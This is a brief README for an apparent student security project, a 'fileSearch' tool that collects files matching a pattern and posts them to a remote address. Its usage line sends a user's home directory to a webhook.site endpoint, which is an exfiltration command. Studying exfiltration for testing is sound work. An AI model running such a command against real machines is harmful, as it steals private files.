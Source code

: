# bhg-final-project
This project is designed to test how files can be exfiltrated from
a target machine. The program will locate all files matching a given
regular expression pattern and create an HTTP POST with the data and
the filenames.

#Usage
Call the fileSearch executable with the directory you would like to 
search, along with the destination address the data will be sent to.
./fileSearch /home/user/ https://webhook.site/27227c6f-b632-4b50-ae7e-a38b18629b2c
